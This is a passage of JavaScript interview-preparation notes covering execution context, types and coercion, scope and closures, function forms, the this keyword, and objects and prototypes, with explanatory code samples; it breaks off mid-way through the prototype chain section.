# 📘 JavaScript, Frontend, React & Next.js — Complete Interview Notes

> **Target:** 3–5 years experience · Frontend / Full-Stack roles
> **Covers:** JavaScript (fundamentals → V8 internals) · Browser & Web APIs · Web Security · React · Next.js · Performance · Frontend System Design · Interview Q&A
>
> **How to use:** Read the explanation, study the example, then close the notes and try to recall it. Every topic has a simple definition, the "why", code, common traps, and interview-ready answers. Topics marked **➕ Added** were not in the original notes and were added to fill gaps in the requested structure.

---

## 📑 Table of Contents

**Part I — JavaScript**

1. [JavaScript Fundamentals and Execution Context](#1-javascript-fundamentals-and-execution-context)
2. [Data Types, Type Coercion and Equality](#2-data-types-type-coercion-and-equality)
3. [Scope, Hoisting and Closures](#3-scope-hoisting-and-closures)
4. [Functions (All Forms)](#4-functions-all-forms)
5. [The this Keyword, call, apply and bind](#5-the-this-keyword-call-apply-and-bind)
6. [Objects, Prototypes and Inheritance](#6-objects-prototypes-and-inheritance)
7. [Classes and OOP](#7-classes-and-oop)
8. [Arrays and Iteration](#8-arrays-and-iteration)
9. [ES6+ Modern JavaScript](#9-es6-modern-javascript)
10. [Asynchronous JavaScript and Promises](#10-asynchronous-javascript-and-promises)
11. [Event Loop, Microtasks and Macrotasks](#11-event-loop-microtasks-and-macrotasks)
12. [Error Handling](#12-error-handling)
13. [Modules (CommonJS and ES Modules)](#13-modules-commonjs-and-es-modules)
14. [Functional Programming](#14-functional-programming)
15. [JavaScript Design Patterns](#15-javascript-design-patterns)
16. [Memory Management and Performance](#16-memory-management-and-performance)
17. [JavaScript Internals and the V8 Engine](#17-javascript-internals-and-the-v8-engine)
18. [Node.js Essentials](#18-nodejs-essentials)

**Part II — Browser, Web Platform and Security**

19. [DOM and Events](#19-dom-and-events)
20. [Browser Rendering and the Critical Rendering Path](#20-browser-rendering-and-the-critical-rendering-path)
21. [Web APIs and Storage](#21-web-apis-and-storage)
22. [Networking, APIs and Caching](#22-networking-apis-and-caching)
23. [Web Security](#23-web-security)

**Part III — React**

24. [React Fundamentals](#24-react-fundamentals)
25. [React Hooks](#25-react-hooks)
26. [Advanced React Concepts](#26-advanced-react-concepts)
27. [React Routing](#27-react-routing)
28. [State Management](#28-state-management)
29. [React Performance Optimization](#29-react-performance-optimization)
30. [TypeScript with React](#30-typescript-with-react)
31. [Practical React UI Patterns](#31-practical-react-ui-patterns)

**Part IV — Next.js**

32. [Next.js Fundamentals (Pages Router)](#32-nextjs-fundamentals-pages-router)
33. [Rendering Strategies (CSR, SSR, SSG, ISR)](#33-rendering-strategies-csr-ssr-ssg-isr)
34. [App Router, Server Components and Data Fetching](#34-app-router-server-components-and-data-fetching)
35. [Next.js Performance and Optimization](#35-nextjs-performance-and-optimization)

**Part V — Performance, Architecture and System Design**

36. [Build and Bundle Optimization](#36-build-and-bundle-optimization)
37. [Core Web Vitals and Performance Budget](#37-core-web-vitals-and-performance-budget)
38. [Frontend Architecture and System Design](#38-frontend-architecture-and-system-design)

**Part VI — Interview Questions and Quick Revision**

39. [JavaScript Interview Questions and Coding Problems](#39-javascript-interview-questions-and-coding-problems)
40. [React and Next.js Interview Questions](#40-react-and-nextjs-interview-questions)
41. [Quick Revision Cheat Sheets](#41-quick-revision-cheat-sheets)

---

# Part I — JavaScript

---

## 1. JavaScript Fundamentals and Execution Context

### 1.1 What is JavaScript?

JavaScript is a **high-level, interpreted (JIT-compiled), single-threaded, dynamically typed, garbage-collected** programming language. It runs in browsers and on servers (via Node.js).

- **Paradigms supported:** Object-Oriented, Functional, Event-driven, Imperative
- **Execution model:** Single-threaded, non-blocking via the **event loop**
- **Typing:** Dynamic (types resolved at runtime), weakly typed (implicit coercion)

**Why it matters:** "Single-threaded but non-blocking" is the foundation for understanding the event loop, promises, and why heavy work freezes the UI.

### 1.2 How JS Code Runs

```
Source Code → Parser → AST (Abstract Syntax Tree) → Bytecode → JIT Compiled machine code
```

The **V8 engine** (Chrome/Node.js) compiles JS to native machine code using JIT (Just-In-Time) compilation. Details in [Section 17](#17-javascript-internals-and-the-v8-engine).

### 1.3 Execution Context and Call Stack ➕ Added

**Simple definition:** An *execution context* is the environment in which a piece of code runs. It holds the variables, the scope chain, and the value of `this`.

There are two main kinds:
- **Global Execution Context (GEC)** — created once when the script starts.
- **Function Execution Context (FEC)** — created every time a function is *called*.

Each context is created in **two phases**:

| Phase | What happens |
|---|---|
| **Creation (memory) phase** | `var` variables are set to `undefined`; function declarations are stored with their full body; `let`/`const` are registered but left **uninitialized** (Temporal Dead Zone); `this` is determined; the outer (lexical) environment link is set. |
| **Execution phase** | Code runs line by line, values are assigned, functions are called. |

This two-phase process is **why hoisting exists** (see [3.3 Hoisting](#33-hoisting)).

The **call stack** keeps track of which execution context is currently running (LIFO — Last In, First Out).

```js
function multiply(a, b) { return a * b; }
function square(n) { return multiply(n, n); }
function printSquare(n) { console.log(square(n)); }

printSquare(4);
```





**Interview traps:**
- Infinite recursion → `RangeError: Maximum call stack size exceeded` (stack overflow).
- A long-running synchronous function keeps the stack busy → the event loop can't run any callbacks → the UI freezes.

### 1.4 Strict Mode

```js
"use strict"; // file level
// or inside function
function fn() { "use strict"; }

// Changes in strict mode:
// - undeclared variables → ReferenceError (not silently global)
// - this in functions → undefined (not window)
// - duplicate parameter names → SyntaxError
// - with statement → SyntaxError
// - delete variable/function → SyntaxError
// - octal literals → SyntaxError

"use strict";
x = 5; // ReferenceError: x is not defined
```

> ES modules and `class` bodies are **always** in strict mode automatically.

---

## 2. Data Types, Type Coercion and Equality

### 2.1 Primitive Types (7 total — immutable, stored by value)

| Type | Example | `typeof` result |
|------|---------|----------------|
| `String` | `"hello"` | `"string"` |
| `Number` | `42`, `3.14`, `NaN`, `Infinity` | `"number"` |
| `Boolean` | `true`, `false` | `"boolean"` |
| `Undefined` | `let x;` | `"undefined"` |
| `Null` | `let x = null` | `"object"` ⚠️ (JS bug) |
| `BigInt` | `9007199254740991n` | `"bigint"` |
| `Symbol` | `Symbol("id")` | `"symbol"` |

### 2.2 Non-Primitive Types (stored by reference)

| Type | Example | `typeof` result |
|------|---------|----------------|
| `Object` | `{}`, `[]`, `new Map()` | `"object"` |
| `Function` | `function(){}` | `"function"` |
| `Array` | `[1,2,3]` | `"object"` |

### 2.3 typeof Gotchas

```js
typeof null         // "object"  ← historical bug, not fixed for backwards compat
typeof []           // "object"  ← use Array.isArray([]) → true
typeof NaN          // "number"  ← Not a Number is of type number
typeof function(){} // "function"
typeof undefined    // "undefined"
typeof undeclared   // "undefined" ← does NOT throw error
typeof typeof 1     // "string" (typeof 1 = "number", typeof "number" = "string")
```

### 2.4 null vs undefined

| | `null` | `undefined` |
|-|--------|-------------|
| Meaning | Intentionally empty | Not yet assigned |
| Set by | Developer | JavaScript engine |
| typeof | `"object"` | `"undefined"` |
| Equality | `null == undefined` → `true` | `null === undefined` → `false` |
| Default params | Does **not** trigger default | **Does** trigger default |

```js
let a;           // undefined — declared, no value
let b = null;    // null — explicitly set to "nothing"

null == undefined   // true  (loose)
null === undefined  // false (strict)
```

### 2.5 Type Coercion

JS automatically converts types in certain operations.

```js
// String + Number → String concatenation
"5" + 2       // "52"
"5" + 2 + 1   // "521"
2 + 1 + "5"   // "35" (left to right)

// Math operators → Number conversion
"5" - 2       // 3
"5" * "2"     // 10
true + 1      // 2
false + 1     // 1
null + 1      // 1
undefined + 1 // NaN

// Comparison coercion
0 == false    // true
"" == false   // true
null == 0     // false
null == false // false
NaN == NaN    // false ← NaN is never equal to itself
```

**How it works internally (simplified):**
- `+` with any string operand → both sides become strings (concatenation).
- `-`, `*`, `/`, `%` → both sides become numbers.
- Objects are first converted to primitives using `valueOf()` / `toString()` (see [2.12](#212-tostring-and-valueof)).
- `null` only loosely equals `undefined` (and itself) — never `0` or `false`.

### 2.6 == vs ===

| Operator | Description | Use |
|----------|-------------|-----|
| `==` | Loose equality — does type coercion | Avoid |
| `===` | Strict equality — no coercion | Always prefer |

```js
"5" == 5    // true  (coercion: "5" → 5)
"5" === 5   // false (different types)
0 == false  // true  (false coerced to 0)
0 === false // false (different types)
null == undefined  // true  (special case)
null === undefined // false
NaN == NaN  // false (NaN is never equal to anything)
```

> **Interview answer:** `==` performs **type coercion** before comparing. `===` checks both value AND type without coercion. Always prefer `===`. (Bonus: `Object.is(NaN, NaN)` is `true` and `Object.is(0, -0)` is `false`.)

### 2.7 Checking Types Reliably

```js
Array.isArray([])                    // true
x === null                           // null check
x !== null && typeof x === "object"  // real object
Number.isNaN(NaN)                    // true (better than isNaN())
Number.isFinite(Infinity)            // false
Object.prototype.toString.call([])   // "[object Array]"
```

### 2.8 Falsy Values (8 total)

```js
false, 0, -0, 0n, "" /* also '' and `` */, null, undefined, NaN
```

Everything else is **truthy**, including `[]`, `{}`, `"0"`, `" "`.

```js
Boolean([])   // true  ← empty array is truthy!
Boolean({})   // true  ← empty object is truthy!
Boolean("0")  // true  ← non-empty string is truthy
```

### 2.9 Pass by Value vs Pass by Reference

**Primitives → Pass by Value** (a copy is made):

```js
let a = 10;
let b = a;
b = 20;
console.log(a); // 10 — unaffected
```

**Objects/Arrays → Pass by Reference** (reference/pointer is shared):

```js
let obj1 = { name: "Abhi" };
let obj2 = obj1;        // same reference
obj2.name = "Sunny";
console.log(obj1.name); // "Sunny" — affected!
```

> **Interview tip:** JS is technically "pass by value" — but for objects, the value IS the reference (memory address). So mutating properties affects the original, but **reassigning** the parameter does not.

Copying to avoid shared references is covered in [6.11 Shallow vs Deep Copy](#611-shallow-vs-deep-copy).

### 2.10 Number Precision

```js
0.1 + 0.2 === 0.3; // false ← floating point!
0.1 + 0.2;          // 0.30000000000000004

// Fix:
Math.abs(0.1 + 0.2 - 0.3) < Number.EPSILON; // true
(0.1 + 0.2).toFixed(2); // "0.30" (string)
Math.round((0.1 + 0.2) * 10) / 10; // 0.3

Number.MAX_SAFE_INTEGER; // 9007199254740991
Number.MIN_SAFE_INTEGER; // -9007199254740991
Number.isInteger(5.0);   // true
Number.isFinite(Infinity); // false
Number.isNaN(NaN);         // true (better than global isNaN)
```

**Why:** JS numbers are 64-bit IEEE-754 floating point. Values like `0.1` cannot be represented exactly in binary. For money, use integers (cents) or a decimal library.

### 2.11 BigInt and Numeric Separators

```js
const max = Number.MAX_SAFE_INTEGER; // 9007199254740991
const big = 9007199254740991n + 1n;  // 9007199254740992n — accurate!

// Cannot mix BigInt and Number
1n + 1; // TypeError
1n + BigInt(1); // 2n

typeof 1n; // "bigint"

// Numeric Separators (ES2021) — purely for readability
const million = 1_000_000;
const hex = 0xFF_EC_D8;
const binary = 0b1010_0001;
```

### 2.12 toString and valueOf

Objects are converted to primitives using these methods during coercion.

```js
class Money {
  constructor(amount, currency) {
    this.amount = amount;
    this.currency = currency;
  }
  toString() { return `${this.amount} ${this.currency}`; }
  valueOf() { return this.amount; }
}

const m = new Money(100, "USD");
`${m}`;    // "100 USD" — uses toString
m + 50;    // 150       — uses valueOf
m > 50;    // true      — uses valueOf
```

---

## 3. Scope, Hoisting and Closures

### 3.1 Scope Types

**Scope** = where a variable is visible/accessible.

| Scope | Description | Keywords |
|-------|-------------|---------|
| **Global** | Accessible everywhere | `var` at top level |
| **Function** | Inside function body | `var`, `let`, `const` |
| **Block** | Inside `{}` (if, for, etc.) | `let`, `const` only |
| **Module** | Per-file scope in ESM | All declarations |
| **Lexical** | Defined by code position at author time | Closures |

```js
var globalVar = "I'm global";        // Global scope

function outer() {
  var funcVar = "function scope";     // Function scope

  if (true) {
    let blockVar = "block scope";     // Block scope — only accessible here
    const blockConst = "also block";
    var hoisted = "function scope";   // var ignores blocks — leaks to function scope!
  }

  console.log(hoisted);    // ✅ "function scope" — var leaked out
  console.log(blockVar);   // ❌ ReferenceError
}
```

### 3.2 var vs let vs const

| Feature | `var` | `let` | `const` |
|---------|-------|-------|---------|
| Scope | Function | Block | Block |
| Hoisted | ✅ (as `undefined`) | ✅ (TDZ) | ✅ (TDZ) |
| Reassignable | ✅ | ✅ | ❌ |
| Redeclarable | ✅ | ❌ | ❌ |
| Global property | ✅ (`window.x`) | ❌ | ❌ |

> **`const` doesn't mean immutable** — the binding can't be reassigned, but object properties CAN be changed. Use `Object.freeze()` for shallow immutability.

```js
const user = { name: "Abhi" };
user.name = "Sunny";   // ✅ works — mutating property
user = {};             // ❌ TypeError — reassigning binding

const arr = [1, 2, 3];
arr.push(4);           // ✅ works
arr = [];              // ❌ TypeError
```

**Best practice:** Use `const` by default, `let` when you must reassign, and avoid `var`.

### 3.3 Hoisting

**Simple definition:** Declarations are "moved" to the top of their scope. In reality nothing moves — during the **creation phase** of the Execution Context (see [1.3](#13-execution-context-and-call-stack--added)), memory is reserved for declarations before any code runs.

**What you write vs what JS effectively executes:**

```js
// What you write:
console.log(x);  // undefined (not ReferenceError)
var x = 5;
sayHi();         // works!
function sayHi() { console.log('Hi'); }

// What JS actually executes:
var x;           // declaration hoisted, initialized to undefined
function sayHi() { console.log('Hi'); }  // fully hoisted
console.log(x);  // undefined
x = 5;
sayHi();
```

**Function declaration hoisting (fully hoisted with body):**

```js
sayHello(); // "Hello!" — works before declaration
function sayHello() { console.log("Hello!"); }
```

**`let`/`const` — Temporal Dead Zone (TDZ):**

```js
console.log(y); // ReferenceError: Cannot access 'y' before initialization
let y = 10;
// y is hoisted but NOT initialized — it's in the "TDZ"
```

**Function expressions are NOT hoisted (only the variable is):**

```js
sayBye(); // TypeError: sayBye is not a function
var sayBye = function() { console.log("Bye!"); };
// var sayBye is hoisted as undefined, then called → error
```

| Declaration | Hoisted? | Initial value | Access before declaration |
|---|---|---|---|
| `var` | Yes | `undefined` | Returns `undefined` |
| `let` / `const` | Yes | Uninitialized (TDZ) | `ReferenceError` |
| Function declaration | Yes, with body | The function | Works |
| Function expression / arrow (with `var`) | Only the variable | `undefined` | `TypeError: not a function` |
| `class` | Yes (TDZ) | Uninitialized | `ReferenceError` |

### 3.4 Scope Chain

When JS looks up a variable, it searches:
1. Current scope
2. Parent scope
3. Parent's parent
4. ... up to global scope
5. `ReferenceError` if not found

```js
let x = "global";

function outer() {
  let x = "outer";
  function inner() {
    // no x here → looks up chain → finds "outer"
    console.log(x); // "outer"
  }
  inner();
}
```

The chain is **lexical** — it depends on where the function is *written*, not where it is *called*.

### 3.5 Closures

**Simple definition:** A **closure** is a function that "remembers" the variables from its outer scope even after the outer function has finished executing. Closure = function + its lexical environment.

**How it works:** When a function is created, it keeps a hidden reference to the scope it was created in. As long as the inner function is reachable, that scope (and its variables) stays alive in memory instead of being garbage collected.

```js
// Simple counter
function makeCounter() {
  let count = 0;          // this variable is "closed over"
  return function() {
    count++;
    return count;
  };
}

const counter = makeCounter(); // makeCounter() is done, but count lives on
console.log(counter()); // 1
console.log(counter()); // 2
console.log(counter()); // 3
```

```js
// Counter with private state and multiple methods
function makeCounter(start = 0) {
  let count = start;
  return {
    increment() { return ++count; },
    decrement() { return --count; },
    getCount()  { return count; }
  };
}

const counter = makeCounter(5);
counter.increment(); // 6
counter.increment(); // 7
counter.getCount();  // 7
// 'count' is private — inaccessible from outside
```

```js
// Real-world example: function factories
function createMultiplier(multiplier) {
  return (n) => n * multiplier; // 'multiplier' is closed over
}
const double = createMultiplier(2);
const triple = createMultiplier(3);
double(5); // 10
triple(5); // 15
```

**Classic closure trap in loops (`var`):**

```js
// Problem
for (var i = 0; i < 3; i++) {
  setTimeout(() => console.log(i), 0);
}
// Prints: 3 3 3 — all closures share the SAME 'i' (var is function-scoped)

// Fix 1: use let
for (let i = 0; i < 3; i++) {
  setTimeout(() => console.log(i), 0);
}
// Prints: 0 1 2 — each iteration has its own 'i' (block scope)

// Fix 2: IIFE to capture value
for (var i = 0; i < 3; i++) {
  ((j) => setTimeout(() => console.log(j), 0))(i);
}
// Prints: 0 1 2
```

**Closure use cases:**
- Data encapsulation / private variables
- Factory functions
- Memoization / caching
- Partial application & currying
- Event handlers / callbacks maintaining state
- Module pattern

**Common mistakes:**
- Closures can cause **memory leaks** by holding large objects alive (see [16.2](#162-memory-leak-patterns)).
- **Stale closures** in React — an effect captures an old state value (see [26.8](#268-stale-closures-in-useeffect)).

---

## 4. Functions (All Forms)

### 4.1 Function Declaration

```js
function add(a, b) {
  return a + b;
}
// Fully hoisted — can be called before definition
```

### 4.2 Function Expression

```js
const add = function(a, b) {
  return a + b;
};
// Not hoisted — variable is hoisted as undefined (var) or in TDZ (let/const)
```

### 4.3 Arrow Functions

```js
const add = (a, b) => a + b;         // implicit return
const square = x => x * x;           // single param, no parens needed
const noOp = () => {};                // no params
const getObj = () => ({ key: "val" });// return object — wrap in ()
```

**Arrow function differences from regular functions:**

| Feature | Regular Function | Arrow Function |
|---------|-----------------|----------------|
| `this` binding | Own `this` (dynamic) | Lexical (inherits from parent) |
| `arguments` object | ✅ Has it | ❌ No `arguments` |
| Used as constructor | ✅ `new Fn()` | ❌ Cannot use `new` |
| `prototype` property | ✅ Has it | ❌ No `prototype` |
| Method definition | ✅ Good | ❌ Avoid (`this` wrong) |

```js
const obj = {
  value: 42,
  regular: function() { return this.value; },  // this = obj → 42
  arrow: () => this.value                       // this = outer/window → undefined
};
```

### 4.4 Default Parameters

```js
function greet(name = "Guest", greeting = "Hello") {
  return `${greeting}, ${name}!`;
}
greet();              // "Hello, Guest!"
greet("Abhi");        // "Hello, Abhi!"
greet(undefined, "Hi"); // "Hi, Guest!" — only undefined triggers default
greet(null, "Hi");    // "Hi, null"  — null does NOT trigger default
```

### 4.5 Rest Parameters

Rest **collects** multiple arguments into a real array.

```js
function sum(first, ...rest) {
  return rest.reduce((acc, n) => acc + n, first);
}
sum(1, 2, 3, 4); // 10

function sumAll(...numbers) {            // rest — collects all args
  return numbers.reduce((a, b) => a + b, 0);
}
sumAll(1, 2, 3, 4); // 10

// rest must be the last parameter
function invalid(a, ...b, c) {} // SyntaxError
```

### 4.6 Spread Operator

Spread **expands** an iterable/object into individual elements.

```js
const arr1 = [1, 2, 3];
const arr2 = [...arr1, 4, 5];  // [1,2,3,4,5]

const obj1 = { a: 1, b: 2 };
const obj2 = { ...obj1, c: 3 }; // { a:1, b:2, c:3 }

Math.max(...arr1); // 3
```

> **Rest vs Spread:** Same `...` syntax. **Rest** is used on the *receiving* side (function params, destructuring) and *gathers*. **Spread** is used on the *giving* side (calls, array/object literals) and *expands*.

### 4.7 The `arguments` Object

```js
function sum() {
  // arguments = array-like object (NOT a real array)
  return Array.from(arguments).reduce((a, b) => a + b, 0);
}
sum(1, 2, 3); // 6

// Arrow functions do NOT have their own arguments
const fn = () => console.log(arguments); // ReferenceError (at top level of a module)
```

> Prefer rest parameters (`...args`) — they give a real array and are friendlier to V8 optimization.

### 4.8 IIFE (Immediately Invoked Function Expression)

```js
// Classic IIFE
(function() {
  const privateVar = "hidden";
  console.log("Runs immediately");
})();

// Arrow IIFE
(() => {
  console.log("Arrow IIFE");
})();

// IIFE with return value
const result = (function(x) { return x * 2; })(5); // 10
```

**Use cases:** Creating private scope, avoiding global pollution, one-time initialization, capturing loop values with `var` (see [3.5](#35-closures)).

### 4.9 Pure vs Impure Functions

```js
// Pure — same input, always same output, no side effects
function add(a, b) { return a + b; }

// Impure — depends on/modifies external state
let count = 0;
function increment() { return ++count; } // side effect: modifies external state

// Impure — same input, different output
function random() { return Math.random(); }
```

### 4.10 Higher-Order Functions

Functions that accept functions as arguments or return functions.

```js
// Takes function
function apply(fn, value) { return fn(value); }
apply(x => x * 2, 5); // 10

// Returns function
function multiplier(factor) {
  return (n) => n * factor;
}
const double = multiplier(2);
double(5); // 10
```

Built-in examples: `map`, `filter`, `reduce`, `setTimeout`, `addEventListener`.

---

## 5. The this Keyword, call, apply and bind

### 5.1 How `this` is Decided

`this` is determined by **how** a function is called (not where it's defined) — except arrow functions, which take `this` from where they are **defined**.

| Calling Pattern | `this` value |
|-----------------|-------------|
| Global scope (non-strict) | `window` (browser) / `global` (Node) |
| Global scope (strict) / plain function call in strict mode | `undefined` |
| Object method `obj.fn()` | The object (`obj`) |
| Constructor (`new`) | New instance |
| Arrow function | Lexical outer scope |
| `call/apply/bind` | Explicitly set |
| DOM event handler (regular function) | The element |
| Class method | The instance |



**All six rules in code:**

```js
// 1. Global context
console.log(this); // window (browser) or module.exports/{} (Node CommonJS)

// 2. Object method — this = the object
const user = {
  name: 'Alice',
  greet() { console.log(this.name); } // 'Alice'
};
user.greet();

// 3. Regular function — this = undefined (strict) or global
function show() { console.log(this); }
show(); // window or undefined in strict mode

// 4. Arrow function — this = inherited from enclosing scope
const obj = {
  name: 'Bob',
  greet: () => console.log(this.name), // 'this' is outer scope, NOT obj
  greetCorrect() {
    const inner = () => console.log(this.name); // ✅ inherits obj's this → 'Bob'
    inner();
  }
};

// 5. Constructor — this = new object being created
function Person(name) {
  this.name = name;
}
const p = new Person('Charlie'); // this = {}

// 6. Explicit binding
function greet() { console.log(this.name); }
greet.call({ name: 'Dave' });         // Dave
greet.apply({ name: 'Eve' });         // Eve
const bound = greet.bind({ name: 'Frank' });
bound();                               // Frank
```

**Losing `this` (common bug):**

```js
const obj = {
  name: "Abhi",
  greet() {
    console.log(this.name); // "Abhi"
    const inner = () => console.log(this.name); // "Abhi" — lexical this
    inner();
  }
};

const fn = obj.greet;
fn(); // undefined (or window.name) — 'this' lost when method extracted

// Fixes:
const fixed = obj.greet.bind(obj);
setTimeout(() => obj.greet(), 0); // wrap in arrow so it's still called as obj.greet()
```

### 5.2 call, apply, bind

All three allow you to **explicitly set `this`**.

```js
function introduce(lang1, lang2) {
  console.log(`${this.name} knows ${lang1} and ${lang2}`);
}
const user = { name: "Abhi" };

// call — invoke immediately, args separated by commas
introduce.call(user, "JS", "Python");

// apply — invoke immediately, args as an array
introduce.apply(user, ["JS", "Python"]);

// bind — returns a NEW function, doesn't invoke
const boundFn = introduce.bind(user, "JS");
boundFn("Python"); // called later
```

| Method | Invokes? | Args format |
|--------|----------|-------------|
| `call` | ✅ Immediately | Comma-separated |
| `apply` | ✅ Immediately | Array |
| `bind` | ❌ Returns bound fn | Comma-separated (partial) |

> **Memory trick:** **A**pply = **A**rray. **C**all = **C**omma. **B**ind = **B**ack later.

**Implement `bind` from scratch (popular interview question):**

```js
Function.prototype.myBind = function(context, ...preArgs) {
  const fn = this;
  return function(...laterArgs) {
    return fn.apply(context, [...preArgs, ...laterArgs]);
  };
};
```

**Interview traps:**
- A bound function **cannot be re-bound** — `fn.bind(a).bind(b)` still uses `a`.
- Arrow functions ignore `call/apply/bind` for `this`.
- `new` overrides `bind` for `this` (the native `bind` handles this; the simple `myBind` above does not).

---

## 6. Objects, Prototypes and Inheritance

### 6.1 Object Creation Methods

```js
// 1. Object literal
const obj = { name: "Abhi", age: 27 };

// 2. Constructor function
function Person(name) { this.name = name; }
const p = new Person("Abhi");

// 3. Object.create() — explicit prototype linking
const proto = { greet() { return `Hi ${this.name}`; } };
const user = Object.create(proto);
user.name = "Abhi";
user.greet(); // "Hi Abhi"

// 4. ES6 Class
class User { constructor(name) { this.name = name; } }
const u = new User("Abhi");

// 5. Factory function
function createUser(name) { return { name, greet() { return `Hi ${this.name}`; } }; }
```

### 6.2 Object Methods

```js
const obj = { a: 1, b: 2, c: 3 };

Object.keys(obj)    // ["a", "b", "c"]
Object.values(obj)  // [1, 2, 3]
Object.entries(obj) // [["a",1], ["b",2], ["c",3]]

// Convert entries back to object
Object.fromEntries([["a", 1], ["b", 2]]); // { a:1, b:2 }

// Merge objects
Object.assign({}, obj1, obj2); // shallow merge

// Freeze — no modifications allowed
Object.freeze(obj); // can't add/modify/delete

// Seal — can modify values, can't add/delete
Object.seal(obj);

// Check property
"a" in obj                // true (checks prototype chain too)
obj.hasOwnProperty("a")   // true (own properties only)
Object.hasOwn(obj, "a")   // true (ES2022 — better alternative)
```

| | `Object.freeze` | `Object.seal` | `Object.preventExtensions` |
|---|---|---|---|
| Add properties | ❌ | ❌ | ❌ |
| Delete properties | ❌ | ❌ | ✅ |
| Modify values | ❌ | ✅ | ✅ |
| Depth | Shallow | Shallow | Shallow |

### 6.3 Property Descriptors

```js
const obj = {};
Object.defineProperty(obj, "name", {
  value: "Abhi",
  writable: false,    // cannot change value
  enumerable: true,   // shows in for...in loops
  configurable: false // cannot delete or redefine
});

// Read descriptor
Object.getOwnPropertyDescriptor(obj, "name");
```

### 6.4 Getters and Setters

```js
const user = {
  _firstName: "Abhi",
  _lastName: "K",
  get fullName() {
    return `${this._firstName} ${this._lastName}`;
  },
  set fullName(name) {
    [this._firstName, this._lastName] = name.split(" ");
  }
};

user.fullName;          // "Abhi K"
user.fullName = "John Doe";
user._firstName;        // "John"
```

### 6.5 Computed Property Names

```js
const key = "name";
const obj = { [key]: "Abhi" }; // { name: "Abhi" }

const prefix = "get";
const obj2 = {
  [`${prefix}Name`]() { return this.name; },
  [`${prefix}Age`]() { return this.age; }
};
```

### 6.6 Prototype Chain (Prototypal Inheritance)

**Simple definition:** Every object in JS has a hidden `[[Prototype]]` link to another object. When you access a property, JS walks up the **prototype chain** until it finds it or hits `null`.

**Lookup algorithm:**
1. Look on the object itself
2. Look on its prototype
3. Continue up chain until `Object.prototype`
4. Return `undefined` if not found (chain ends at `null`)

```js
const animal = { breathes: true, eat() { console.log('eating'); } };
const dog = Object.create(animal); // dog's prototype = animal
dog.barks = true;
dog.bark = function() { console.log('woof'); };

